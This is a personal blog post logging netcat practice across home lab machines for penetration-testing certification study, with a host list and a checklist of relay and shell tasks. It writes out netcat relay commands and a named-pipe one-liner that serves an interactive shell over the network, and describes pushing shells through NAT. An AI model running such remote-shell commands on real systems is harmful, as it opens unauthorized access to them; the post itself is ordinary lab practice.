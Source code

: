 ```yaml
---
layout: post
title: Netcat practice
category: Tools
author: adricnet
---
```


This morning with much coffee I'm working between email to practice netcat between hosts for GSE, PWK, and generally building good character.

**Refs**

* https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem
* http://wiki.securityweekly.com/wiki/index.php/Episode195#Tech_Segment:_Crazy-Ass_Netcat_Relays_for_Fun_and_Profit
* PWK Lab Manual (private)
* man nc (openbsd)

**Hosts**

* Archie: Win10 HP ProBook w/ VirtualBox: 192.168.0.15
  * Seven: Win7 IE11 VM provided by [Microsoft](https://modern.ie/): 10.0.2.15
* Gray: Chromebook (x64) w/ crouton 192.68.0.13
  * xenial: an Ubuntu chroot (Crouton)

Tasks
--

0. Networks up, Firewalls down, for class

  * [x] xenial : installed ufw, disabled firewall
  * [x] Seven : works better with DHCP on 
  * [.] ping xenial from seven
  * [.] ping archie from seven


1. Smoke tests

  * [x] nc on Archie listening (chat), nc on xenial connect 
  * [x] nc on Archie listening -e, nc on xenial connect
  * [x] nc on xenial listening, xenial connecting ... checking iptables/ufw 
  * [!] nc on Seven listening, nc on xenial connect? ... NAT
  * [x] nc on xenial listening, nc on Seven connect
  * [x] nc on xenial listening chat/text, nc relay on archie, nc on Seven connect
    * [!] ```seven> nc -v 192.168.0.15 4433``` to ```archie> nc -v -l -p 4433 | nc 192.168.0.13 4444``` no workee in PS
    * [x] ```seven> nc -v 192.168.0.15 4433``` to ```archie> nc -v -l -p 4433 | nc 192.168.0.13 4444``` works in cmd
    * [x] seven to archie to text file, text file into nc to xenial works fine
  * [x] nc on archie listening, nc on Seven connect
  * [!] nc on Seven listening, nc on archie connecting ... NAT
  * [x] while loop listener on xenial, persistent one way (L) relay on archie -> xenial 
 
1. Shovelling shells

  * [x] xenial persistent listen (while), archie relay (L), push shell output from archie
  * [x] xenial shovel shell from archie : ```xenial> while [ 1 ]; do cat /tmp/pipe | /bin/sh -i 2>&1 | nc -lp 4443 > /tmp/pipe; done```
  * [x] xenial shovel shell from seven (thru archie's persistent relay)
  * [x] seven push half a shell out to xenial (thru NAT)
  * [.] seven push half a shell out to xenial thru archie relay
  * [ ] 

